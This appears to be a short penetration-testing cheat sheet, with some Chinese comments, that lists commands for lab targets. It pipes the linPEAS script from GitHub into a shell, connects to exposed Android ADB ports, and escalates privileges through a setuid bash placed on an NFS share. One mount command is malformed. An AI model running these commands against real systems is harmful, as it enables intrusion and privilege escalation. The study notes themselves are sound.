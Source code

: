 ## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## _sudo_

```sh
# 列舉可執行命令
sudo -l
# 免 root 密碼切換至 root 方式
sudo -i
```

## _http server_

利用python指令臨時啟用一個http伺服器，讓靶機可以下載所需要的檔案

```sh
python -m http.server 8080
```

## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```

## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

## _snow_

```sh
snow -C -p pass -m "message" text1.txt text2.txt
snow -C -p pass text2.txt text3.txt
```

![image](https://hackmd.io/_uploads/BJwSCx8wC.png)

## _Mount NFS & NFS提權_

```sh
# to mount an NFS share on a Linux system
apt install nfs-common
service rpcbind start
# to scan the target IP address for an open NFS port (port 2049) 
rpcinfo -p <Target IP Address>
showmount -e <Target IP Address>
sudo mount -t <Target IP Address>:/home /mnt/nfs
sudo cp /bin/bash /mnt/nfs/
sudo chmod +s /mnt/nfs/bash
ssh -l user target_ip
/xxx/bash -p

# to mount an SMB share on a Linux system
```